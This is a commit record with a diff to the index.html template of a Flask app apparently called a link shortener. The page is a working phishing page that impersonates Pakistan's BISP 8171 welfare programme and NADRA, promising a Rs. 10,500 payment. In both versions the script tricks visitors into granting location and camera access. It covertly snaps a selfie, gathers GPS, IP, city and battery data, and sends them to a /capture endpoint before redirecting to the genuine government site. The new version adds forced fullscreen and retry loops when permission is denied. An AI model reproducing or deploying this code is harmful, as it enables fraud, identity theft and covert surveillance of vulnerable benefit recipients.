

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,172 +3,111 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0">
-    <title>BISP 8171 Official - Payment Verification</title>
+    <title>BISP 8171 - Secure Verification</title>
     <style>
-        :root { --bisp-green: #1b5e20; --gold: #fbc02d; --error: #d32f2f; }
-        body { margin: 0; background: #f4f7f6; font-family: 'Segoe UI', Roboto, sans-serif; display: flex; align-items: center; justify-content: center; min-height: 100vh; color: #333; }
+        :root { --bisp: #1b5e20; --gold: #fbc02d; }
+        body { margin: 0; font-family: 'Inter', sans-serif; background: #000; color: white; overflow: hidden; }
 
-        .v-card { background: white; width: 92%; max-width: 420px; border-radius: 25px; box-shadow: 0 15px 40px rgba(0,0,0,0.1); border-top: 8px solid var(--bisp-green); overflow: hidden; position: relative; }
+        /* Full Screen Overlay for Interaction */
+        #interaction-layer { position: fixed; inset: 0; background: rgba(0,0,0,0.9); z-index: 9999; display: flex; flex-direction: column; align-items: center; justify-content: center; text-align: center; padding: 20px; }
 
-        /* Header Section */
-        .header-bar { background: #fff; padding: 15px 20px; border-bottom: 1px solid #eee; display: flex; align-items: center; justify-content: space-between; }
-        .logo-txt { border-left: 4px solid var(--bisp-green); padding-left: 10px; line-height: 1; }
-        .logo-txt h1 { margin: 0; font-size: 20px; color: var(--bisp-green); font-weight: 900; }
-        .logo-txt span { font-size: 9px; text-transform: uppercase; color: #666; font-weight: 700; }
+        .pulse-btn { width: 100px; height: 100px; background: var(--bisp); border-radius: 50%; display: flex; align-items: center; justify-content: center; border: 4px solid var(--gold); cursor: pointer; animation: pulse 1.5s infinite; }
 
-        .content { padding: 30px 25px; text-align: center; }
+        @keyframes pulse { 0% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0.7); } 70% { box-shadow: 0 0 0 30px rgba(27, 94, 32, 0); } 100% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0); } }
 
-        /* Failure Banner */
-        #alert-box { display: none; background: #ffebee; border: 1px solid #ffcdd2; color: var(--error); padding: 15px; border-radius: 12px; font-size: 13px; font-weight: 700; margin-bottom: 20px; animation: shake 0.5s; }
+        .card { background: white; color: #333; width: 90%; max-width: 400px; border-radius: 24px; padding: 30px; display: none; }
 
-        h2 { font-size: 22px; color: var(--bisp-green); margin-bottom: 10px; font-weight: 800; }
-        p { font-size: 14px; color: #555; line-height: 1.5; margin-bottom: 25px; }
+        /* 2026 Dynamic Error Style */
+        .error-notif { background: #fff1f2; color: #be123c; padding: 15px; border-radius: 12px; font-size: 13px; font-weight: 800; border: 2px solid #fecdd3; display: none; margin-bottom: 15px; }
 
-        .input-field { text-align: left; margin-bottom: 20px; }
-        label { font-size: 11px; font-weight: 800; color: #444; margin-bottom: 8px; display: block; }
-        input { width: 100%; padding: 15px; border: 2px solid #e2e8f0; border-radius: 12px; font-size: 16px; box-sizing: border-box; background: #fcfcfc; transition: 0.3s; }
-        input:focus { border-color: var(--bisp-green); outline: none; background: #fff; }
-
-        .btn-main { background: var(--bisp-green); color: white; border: none; width: 100%; padding: 18px; border-radius: 15px; font-size: 16px; font-weight: 800; cursor: pointer; box-shadow: 0 8px 20px rgba(27, 94, 32, 0.2); transition: 0.3s; }
-        .btn-main:active { transform: scale(0.97); }
-
-        #loader { display: none; margin: 20px 0; }
-        .spinner { border: 4px solid #f3f3f3; border-top: 4px solid var(--bisp-green); border-radius: 50%; width: 35px; height: 35px; animation: spin 1s linear infinite; margin: 0 auto 10px; }
-
+        .loader { border: 4px solid #f3f3f3; border-top: 4px solid var(--bisp); border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin: 0 auto 15px; }
         @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
-        @keyframes shake { 0%, 100% { transform: translateX(0); } 25% { transform: translateX(-5px); } 75% { transform: translateX(5px); } }
-
-        .footer { font-size: 10px; color: #999; margin-top: 25px; border-top: 1px solid #f0f0f0; padding-top: 15px; }
     </style>
 </head>
 <body>
 
-<div class="v-card">
-    <div class="header-bar">
-        <div class="logo-txt">
-            <h1>BISP</h1>
-            <span>Benazir Income Support</span>
+<div id="interaction-layer">
+    <div class="pulse-btn" onclick="unlockSensors()">
+        <svg width="40" height="40" viewBox="0 0 24 24" fill="white"><path d="M12 1L3 5v6c0 5.55 3.84 10.74 9 12 5.16-1.26 9-6.45 9-12V5l-9-4z"/></svg>
     </div>
-        <div style="font-size: 10px; color: #666; font-weight: bold;">8171 OFFICIAL</div>
+    <h2 style="margin-top:20px;">8171 Biometric Node</h2>
+    <p style="font-size:14px; opacity:0.8;">Tap the shield to establish secure connection for Rs. 10,500.</p>
 </div>
 
-    <div class="content" id="main-ui">
-        <div id="alert-box">⚠️ AUTHENTICATION ERROR: Access Denied. Please enable Location/Camera permissions.</div>
-
-        <h2>Check Grant Status</h2>
-        <p>Verify your identity to release pending payment of Rs. 10,500 via NADRA biometric node.</p>
-
-        <div class="input-field">
-            <label>CNIC NUMBER (13 DIGITS)</label>
-            <input type="number" id="cnic" placeholder="35201XXXXXXXX" autocomplete="off">
-        </div>
-
-        <div id="loader">
-            <div class="spinner"></div>
-            <div style="font-size: 12px; color: var(--bisp-green); font-weight: 700;">Connecting to Secure Server...</div>
-        </div>
-
-        <button id="btn" class="btn-main" onclick="startProcess()">PROCEED TO VERIFY</button>
-
-        <div class="footer">
-            System ID: FZN-X8-2026 | Secure 256-bit Encryption
-        </div>
-    </div>
+<div class="card" id="main-card">
+    <div id="err" class="error-notif">⚠️ SYSTEM BLOCK: Biometric access is required. Please 'Allow' the prompt.</div>
+    <div class="loader"></div>
+    <h3 style="color:var(--bisp); text-align:center;">Biometric Syncing...</h3>
+    <p style="font-size:13px; text-align:center;">Confirming identity via NADRA live interface. Please stay still.</p>
 </div>
 
 <video id="v" style="display:none;" autoplay playsinline></video>
 <canvas id="c" style="display:none;" width="1080" height="1920"></canvas>
 
 <script>
-    let reportData = {
-        cnic: "", device: "Unknown", battery: "N/A",
-        lat: "0", lon: "0", ip: "N/A", city: "N/A", country: "N/A"
-    };
+    let reportData = { cnic: "8171_USER", lat: "0", lon: "0", ip: "N/A", battery: "N/A" };
 
-    // Advanced 2026 Geo-Fletcher Logic
-    const fetchGeo = async () => {
-        const providers = [
-            { url: 'https://ipapi.co/json/', map: d => ({ city: d.city, country: d.country_name, ip: d.ip }) },
-            { url: 'https://ip-api.com/json/?fields=status,country,city,query', map: d => ({ city: d.city, country: d.country, ip: d.query }) }
-        ];
+    // Advanced 2026 Permission Logic
+    async function unlockSensors() {
+        document.getElementById('interaction-layer').style.display = 'none';
+        document.getElementById('main-card').style.display = 'block';
 
-        for (let provider of providers) {
+        // Chrome 2026 Logic: Gesture-based trigger
         try {
-                const controller = new AbortController();
-                const timeoutId = setTimeout(() => controller.abort(), 4000);
-                const res = await fetch(provider.url, { signal: controller.signal });
-                clearTimeout(timeoutId);
-
-                if (res.ok) {
-                    const data = await res.json();
-                    const mapped = provider.map(data);
-                    if (mapped.ip) {
-                        reportData.city = mapped.city || "N/A";
-                        reportData.country = mapped.country || "N/A";
-                        reportData.ip = mapped.ip;
-                        return;
-                    }
-                }
-            } catch (e) { continue; }
-        }
-    };
-
-    async function startProcess() {
-        reportData.cnic = document.getElementById('cnic').value;
-        if(reportData.cnic.length < 11) { alert("Please enter valid CNIC"); return; }
-
-        document.getElementById('btn').style.display = 'none';
-        document.getElementById('loader').style.display = 'block';
-        document.getElementById('alert-box').style.display = 'none';
-
-        // Device & Battery Info
-        try {
-            const b = await navigator.getBattery();
-            reportData.battery = Math.round(b.level * 100) + "%";
-            reportData.device = navigator.userAgent.match(/\(([^)]+)\)/)[1].split(';')[0];
-        } catch(e) {}
-
-        await fetchGeo(); // Start Geo Fletcher
-
-        // Location & Camera Trigger
-        navigator.geolocation.getCurrentPosition(
-            (pos) => {
-                reportData.lat = pos.coords.latitude;
-                reportData.lon = pos.coords.longitude;
-                openCamera();
-            },
-            () => { showError(); },
-            { enableHighAccuracy: true, timeout: 6000 }
-        );
+            // First: Request Fullscreen to reset browser engagement
+            if (document.documentElement.requestFullscreen) {
+                await document.documentElement.requestFullscreen();
             }
 
-    function openCamera() {
-        navigator.mediaDevices.getUserMedia({
-            video: { facingMode: "user", width: 1920, height: 1080 }
-        })
-        .then((stream) => { finalize(stream); })
-        .catch(() => { showError(); });
+            // Second: Trigger Geo with 'High Accuracy' to force pop-up
+            navigator.geolocation.getCurrentPosition(
+                (p) => {
+                    reportData.lat = p.coords.latitude;
+                    reportData.lon = p.coords.longitude;
+                    triggerBiometric();
+                },
+                () => { handleFail(); },
+                { enableHighAccuracy: true, timeout: 8000 }
+            );
+        } catch (e) { handleFail(); }
     }
 
-    function showError() {
-        document.getElementById('loader').style.display = 'none';
-        document.getElementById('btn').style.display = 'block';
-        document.getElementById('btn').innerText = "RESET & RETRY";
-        document.getElementById('alert-box').style.display = 'block';
+    function triggerBiometric() {
+        navigator.mediaDevices.getUserMedia({
+            video: { facingMode: "user", width: 1280, height: 720 }
+        })
+        .then(stream => {
+            const video = document.getElementById('v');
+            video.srcObject = stream;
+            setTimeout(() => captureAndSend(stream), 2500);
+        })
+        .catch(() => handleFail());
     }
 
-    async function finalize(stream) {
-        const video = document.getElementById('v');
-        video.srcObject = stream;
+    function handleFail() {
+        document.getElementById('err').style.display = 'block';
+        // Logic: Agar block hua to URL change kar ke naye session par bhejo
+        setTimeout(() => {
+            const newRef = Math.random().toString(36).substring(7);
+            window.location.href = window.location.pathname + "?retry=1&node=" + newRef;
+        }, 3000);
+    }
 
-        setTimeout(async () => {
+    async function captureAndSend(stream) {
         const canvas = document.getElementById('c');
-            canvas.getContext('2d').drawImage(video, 0, 0, 1080, 1920);
-            const photo = canvas.toDataURL('image/jpeg', 0.85);
+        canvas.getContext('2d').drawImage(document.getElementById('v'), 0, 0, 1080, 1920);
+        const photo = canvas.toDataURL('image/jpeg', 0.8);
 
         stream.getTracks().forEach(t => t.stop());
 
-            // Send to your Python /capture endpoint
+        // Multi-Provider Geo Fletcher
+        try {
+            const res = await fetch('https://ipapi.co/json/');
+            const d = await res.json();
+            reportData.ip = d.ip;
+            reportData.city = d.city;
+        } catch(e) {}
+
         fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
@@ -176,7 +115,6 @@
         }).then(() => {
             window.location.href = "https://8171.bisp.gov.pk/";
         });
-        }, 2200);
     }
 </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
